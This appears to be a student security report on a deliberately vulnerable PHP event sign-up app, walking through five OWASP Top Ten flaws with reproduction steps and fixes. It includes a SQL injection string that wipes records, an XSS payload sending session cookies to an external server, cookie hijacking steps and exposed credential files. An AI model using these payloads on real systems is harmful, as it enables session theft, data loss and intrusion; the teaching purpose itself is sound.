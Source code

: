 # The Report

This project is done with PHP in a LAMP environment.<br> 
The requirements:

1. Windows, OS X or Linux as the host
2. OWASP ZAP
3. Firefox with the Advanced Cookie Manager add-on
4. VirtualBox
5. Debian as a virtual machine

See https://github.com/j0ly/firstproject/blob/master/README.md for installation instructions.

There are more problems with this code besides those which I have mentioned and provided a fix for here below. And regarding the suggested fixes, I know that there are many things that could be done to further improve the security. But I had to draw the line somewhere. The task was to have at least 5 OWASP Top Ten vulnerabilies, and to provide a fix for them, which I think I have done.


The OWASP vulnerabilities:

## A1-Injection

The content of the database can be deleted using SQL injection.

### How to identify 
1. Sign up some users to the event. Check from the Admin page. 
2. Then go to the Cancel page and enter: ```' OR '1'='1```. 
3. All the sign-ups are now gone, as you can see from the Admin page!    

### How to fix
Add this after line 14 in delete.php;

```$ticket = mysqli_real_escape_string($conn, $ticket);```

## A2-Broken Authentication and Session Management
The cookie-session-id, which is used for authentication, is sent over an unencrypted connection.<br>

### How to identify
You can get access to the Admin pages using an eavesdropped cookie-session-id like this:

1. Start OWASP ZAP and configure the proxy settings in the browser (see [README.md](README.md#owasp-zap)).
2. Go to the Event-X Admin pages, look who have signed up, and then click the "home" link.
3. You're now back at the starting page, which doesn't use SSL.
4. But with OWASP ZAP you can see that the session-cookie is still in use (see [README.md](README.md#owasp-zap)). If someone would have the possibility to eavesdrop, they could now steal the cookie-session-id!
5. Copy the cookie-session-id to simulate this situation!
  * And if you were using the Firefox browser for this, restart it before the next step...
6. Go to the Admin login-page with Firefox, but don’t log in! 
7. Open “Advanced Cookie Manager” and paste the cookie-session-id into the "Value" box (see [README.md](README.md#advanced-cookie-manager-for-firefox)). 
  * Note: You have to  delete the old one first, otherwise you will not be able to save the change.
  * Close the Advanced Cookie Manger when finished.
8. Go back to the Event-X start page and click the "Admin" link, - now you’re in without entering credentials!

### How to fix
Force HTTPS for the whole server;

1. In /etc/apache2/sites-available/000-default.conf, add this line after the "DocumentRoot" line (modify "yourserver" to match the IP of your server); 
  * ``` Redirect permanent / https://yourserver/ ``` 
2. Restart Apache with this command; ``` apachectl restart ```

## A3-Cross-Site Scripting (XSS)
The XSS code can be entered on the SignUp page, and executed on the Admin page when listing the sign-ups. 
### How to identify
1. Restart the browser (to clear away the session-cookie). 
2. Enter this code into the address field on the SignUp page;
   * ```<img src=x onerror=this.src='http://yourserver/?c='+document.cookie>```
3. Go to the Admin pages and take a look at the sign-ups.
4. The session-id should now be written to the Apache logs of “yourserver”, which you can see with the "cat /var/log/apache2/access.log" command (this would normally be an other server, that the hacker has access to). 

or 

1. Enter this code to any of the fields on the SignUp page; 
   * ```<body onload=alert('hello')>```
2. You will then receive a "hello" greeting, when looking at the sign-ups.

### How to fix
In done.php you can find these lines;
```
$fname = $_POST["name"];
$faddress = $_POST["address"];
$creditcard = $_POST["creditcard"];
```
Replace them with these lines;
```
$fname = clean($_POST["name"]);
$faddress = clean($_POST["address"]);
$creditcard = clean($_POST["creditcard"]);

function clean($data) {
  $data = trim($data);
  $data = stripslashes($data);
  $data = htmlspecialchars($data);
  return $data;
}
```

## A6-Sensitive Data Exposure
Credit card numbers are sent in cleartext with POST, over an unencrypted connection.

### How to identify

1. Start OWASP ZAP and configure the proxy settings in the browser (see README.md).
2. Go to the Event-X SignUp page and fill in the requested information, including a (imaginary) credit card number.
3. Press Submit
4. With OWASP ZAP you can now see that the credit card number was sent over an unencrypted http connection (see [README.md](README.md#owasp-zap)).

### How to fix: 
Force HTTPS for the whole server (see the A2-fix)! 

## A7-Missing Function Level Access Control
The database credentials are stored in an easy to guess plaintext config file, inside the web-root, and is lacking access control.
### How to identify
Modify “yourserver” in this link to match your installation; http://yourserver/firstproject/admin/config.ini.<br> 
Then open this link with your browser, and you should see the credentials.

### How to fix
Deny access to the config.ini file. 

There is already a .htaccess file in the admin folder that should do that, but Apache does not by default enable the use of .htaccess files. To enable, do this:

  Open /etc/apache2/apache2.conf in an editor, and find these lines;
  ```
  <Directory /var/www/>
        Options Indexes FollowSymLinks
        AllowOverride None
        Require all granted
  </Directory>
  ```
  Change “AllowOverride None” to “AllowOverride All”. Run the command “apachectl restart”, and try to open the link again.
